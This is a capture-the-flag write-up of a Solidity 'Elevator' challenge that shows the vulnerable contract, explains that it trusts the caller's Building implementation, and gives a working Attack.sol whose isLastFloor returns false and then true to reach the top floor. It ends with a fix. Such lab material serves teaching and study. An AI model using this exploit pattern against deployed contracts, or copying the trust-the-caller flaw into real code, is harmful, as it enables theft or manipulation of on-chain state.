 **Description**
> This elevator won't let you reach the top of your building. Right?
> 
The goal of this challenge is to be able to reach the top floor of the building.

* Elevator.sol
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
**Attack Vector**
The Building contract which contains the logic that can get your to the top is an external actor (msg.sender), which allows any caller to insert malicious code.

**Attack Scenario**
The attacker can just implement the building interface and call `goto` and specifies a target floor as an input.

- **Attack.sol**
```solidity=
// SPDX-License-Identifier: MIT

pragma solidity ^0.8;

interface IElevator {
    function goTo(uint256) external;
    function top() external view returns (bool);
}

contract Attack {
    IElevator private immutable target;
    uint256 count;

    constructor(address _target) {
        target = IElevator(_target);
    }

    function pwn() external {
        target.goTo(1);
        require(target.top(), "not top");
    }

    function isLastFloor(uint256) external returns (bool) {
        count++;
        return count > 1;
    }
}
```

**Recommendation**
Consider having a separate Building contract that contains the logic of the elevator and do not rely on the caller to implement it.